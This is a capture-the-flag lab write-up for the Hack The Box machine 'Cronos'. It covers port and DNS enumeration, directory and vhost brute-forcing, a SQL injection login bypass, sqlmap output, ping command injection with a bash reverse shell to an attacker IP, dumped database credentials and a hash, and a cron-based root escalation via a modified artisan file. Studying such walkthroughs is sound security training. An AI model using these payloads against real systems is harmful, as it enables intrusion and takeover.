

# Enumeration
## nmap
```bash
└─$ rustscan -a $IP -- -A -sC -sV -Pn
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/coyote/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.30.241:22
Open 10.129.30.241:53
Open 10.129.30.241:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 15:29 CDT
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:29
Completed NSE at 15:29, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:29
Completed NSE at 15:29, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:29
Completed NSE at 15:29, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 15:29
Completed Parallel DNS resolution of 1 host. at 15:29, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 15:29
Scanning 10.129.30.241 [3 ports]
Discovered open port 22/tcp on 10.129.30.241
Discovered open port 80/tcp on 10.129.30.241
Discovered open port 53/tcp on 10.129.30.241
Completed Connect Scan at 15:29, 0.04s elapsed (3 total ports)
Initiating Service scan at 15:29
Scanning 3 services on 10.129.30.241
Completed Service scan at 15:30, 6.11s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.30.241.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:30
Completed NSE at 15:30, 8.31s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:30
Completed NSE at 15:30, 0.20s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:30
Completed NSE at 15:30, 0.00s elapsed
Nmap scan report for 10.129.30.241
Host is up, received user-set (0.044s latency).
Scanned at 2021-06-10 15:29:56 CDT for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

## dns
* note: had to use box's original IP in 10.10.10.0/24 range, even though that isn't its IP now... shouldn't have these issues in the labs
```bash
└─$ dnsrecon -d asdf -n $IP -a -t rvl -r 10.10.10.1/24      
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.10.10.0 to 10.10.10.255
[+] PTR ns1.cronos.htb 10.10.10.13
[+] 1 Records Found
```
### hostnames
* cronos.htb
* ns1.cronos.htb
* admin.cronos.htb  ( [vhosts](#vhosts) enumeration )
 
 

## gobuster
```bash
└─$ gobuster dir -u http://cronos.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cronos.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/10 16:01:56 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 305] [--> http://cronos.htb/js/]
/css                  (Status: 301) [Size: 306] [--> http://cronos.htb/css/]
/server-status        (Status: 403) [Size: 298]                             
Progress: 23268 / 30001 (77.56%)                                           [ERROR] 2021/06/10 16:02:14 [!] parse "http://cronos.htb/error\x1f_log": net/url: invalid control character in URL
                                                                            
===============================================================
2021/06/10 16:02:17 Finished
===============================================================

```

```bash
└─$ gobuster dir -u http://cronos.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php -t 100 -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cronos.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/06/10 16:02:52 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2319]
/favicon.ico          (Status: 200) [Size: 0]   
/web.config           (Status: 200) [Size: 914] 
/robots.txt           (Status: 200) [Size: 24]  
                                                
===============================================================
2021/06/10 16:03:11 Finished
===============================================================
```

### vhosts 
```bash
└─$ gobuster vhost -u http://cronos.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb/
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/06/10 16:07:30 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 2580]
                                                  
===============================================================
2021/06/10 16:08:54 Finished
===============================================================

```

### web.config
```xml
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.\*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST\_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST\_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST\_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

# Admin page
## authentication bypass
Use username `admin' or 1=1-- ` to log in


## login request
```
POST /index.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/index.php
Cookie: PHPSESSID=k0vh24q7j8ibnucuqip9ktgbv2
Upgrade-Insecure-Requests: 1

username=asdf&password=asdf
```

## sqlmap
```
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=asdf' AND (SELECT 5089 FROM (SELECT(SLEEP(5)))HUkL) AND 'maAs'='maAs&password=asdf
---
```


## ping command injection
`127.0.0.1; id`


## Reverse shell
`127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'`

# Loot
## db creds
```php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

## db dump
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.01 sec)
```

## MD5 hashes
* not in rockyou.txt
```
admin:4f5fffa7b2340178a716e3832451e058
```
# Privelege Escalation
## linpeas
```
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab                                          
incrontab Not Found
-rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Mar  1  2016 php
-rw-r--r--  1 root root  191 Mar 22  2017 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  6  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 13  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Mar 22  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports 
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 10.129.30.241:53        0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      - 
tcp6       0      0 :::80                   :::*                    LISTEN      - 
tcp6       0      0 :::22                   :::*                    LISTEN      - 

[+] Superusers
root:x:0:0:root:/root:/bin/bash                                   

[+] Users with console
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash

[+] Last time logon each user
Username         Port     From             Latest            
root             tty1                      Sun Dec 24 17:43:09 +0200 2017
noulis           pts/0    10.10.14.69      Thu Oct 29 18:50:46 +0200 2020


Reading /var/www/laravel/.env
APP_NAME=Laravel                                               
APP_ENV=local
APP_KEY=base64:+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=
APP_DEBUG=true
APP_LOG_LEVEL=debug
APP_URL=http://localhost

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=

```

## crontab
```
www-data@cronos:/home/noulis$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
```
* can modify this php file
```php
www-data@cronos:/var/www/laravel$ cat artisan 
#!/usr/bin/env php
<?php

system('chmod +s /bin/bash');

```
```bash
www-data@cronos:/var/www/laravel$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
www-data@cronos:/var/www/laravel$ bash -p
bash-4.3# cd /root
bash-4.3# ls
dhcp.sh  root.txt
bash-4.3# cat root.txt
```